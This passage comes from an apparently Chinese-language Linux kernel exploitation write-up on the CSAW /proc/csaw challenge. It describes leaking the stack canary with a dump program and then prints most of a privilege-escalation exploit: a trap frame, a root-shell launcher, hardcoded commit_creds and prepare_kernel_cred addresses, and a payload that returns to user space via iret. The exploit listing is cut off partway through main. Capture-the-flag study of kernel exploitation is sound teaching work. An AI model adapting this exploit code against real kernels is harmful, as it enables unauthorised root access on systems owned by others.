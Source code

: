```
    printf("n");
    return 0;
}
```

还和之前一样，编译后，丢busybox文件系统，然后qemu起系统，之后测试我们的dump程序是否工作正常：

[![](./img/85848/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01557ba74cba0b9ea6.png)

可以看到，我们的dump程序可以正常dump出CANARY的值，那么下面的工作就很简单了，直接可以利用这个leak，构造payload去拿root shell了。

<br>

**0x04 : Exploit**

**1. 编写的exploit代码如下：**



```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stdint.h&gt;
struct trap_frame{
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));
void launch_shell(void) 
{ 
    execl("/bin/sh", "sh", NULL);
}
struct trap_frame tf;
void prepare_tf(void) 
{ 
    asm("pushl %cs; popl tf+4;"
        "pushfl; popl tf+8;"
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &amp;launch_shell;
    tf.esp -= 1024;
}
#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc1067fc0;
void (*commit_creds)(void*) KERNCALL = (void*) 0xc1067e20;
void payload(void){
    //payload here    
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf,%esp;"
       "iret;");
}
int main(int argc,char *argv[]){
    int fd = open("/proc/csaw",O_RDWR);
    if(!fd){
        printf("errorn");
        exit(1);
    }
    lseek(fd,16,SEEK_CUR);
    char buffer[64] = {0};
    read(fd,buffer,64);
    int i,j;
```